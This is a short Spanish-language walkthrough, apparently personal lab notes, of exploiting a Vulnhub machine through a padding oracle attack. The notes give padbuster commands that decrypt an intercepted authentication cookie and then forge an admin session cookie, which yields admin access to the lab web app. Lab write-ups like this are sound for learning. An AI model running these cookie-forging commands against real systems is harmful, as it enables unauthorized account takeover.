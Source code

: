 Añadimos la máquina a vulnhub, donde vamos a explotar la vulnerabilidad [[Padding Oracle Attack]]
![[Pasted image 20230706155433.png]]
Lo instalamos en máquina virtual y lo ejecutamos:
![[Pasted image 20230706155550.png]]
Y aquí encontramos la IP de la máquina víctima:
![[Pasted image 20230706155647.png]]
Hacemos un breve reconocimiento y vemos que tiene el puerto 80 abierto:
![[Pasted image 20230706155909.png]]
Y vemos un servicio HTTP en funcionamiento:
![[Pasted image 20230706160018.png]]
Probamos en registrarnos tal y como nos dice la web:
![[Pasted image 20230706160612.png]]
![[Pasted image 20230706160631.png]]
Ahora vamos a salir de este login y volvemos al panel de logueo, donde vamos a volver a interceptar la petición con burpsuite (recargando la página) y en burpsuite tenemos una cookie de autenticación:
![[Pasted image 20230706161456.png]]
Y ahora con este código, podemos intentar descifrarlo con una herramienta llamada padbuster, poniendo estos parámetros y con un 8, aunque se pueden ir probando con distintos números:
```bash
padbuster http://192.168.0.24/login.php %2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm 8 --cookies auth=%2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm -encoding 0
```
![[Pasted image 20230706161721.png]]
Y al ejecutarlo nos pregunta, esto, donde nos recomiendan poner el 2, que es lo que pondremos:
![[Pasted image 20230706161853.png]]
Y nos ha descifrado el usuario:
![[Pasted image 20230706161923.png]]
## Obteniendo cookie de sesión de un usuario
Una vez hayamos hecho esto, podremos también obtener una cookie de sesión de algún usuario registrado en el sistema, por ejemplo del usuario admin, por lo que utilizaremos estos otros parámetros:
```bash
padbuster http://192.168.0.24/login.php %2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm 8 --cookies auth=%2FPJNmlW69vb8ApskVyrsLcNkjBTilTNm -encoding 0 -plaintext 'user=admin'
```
Y nos habrá generado una cookie de sesión para el usuario admin:
![[Pasted image 20230706162314.png]]
Por tanto ahora vamos a pegar esta cookie dentro del navegador:
![[Pasted image 20230706162411.png]]
Recargamos la página y seremos el usuario admin:
![[Pasted image 20230706162456.png]]

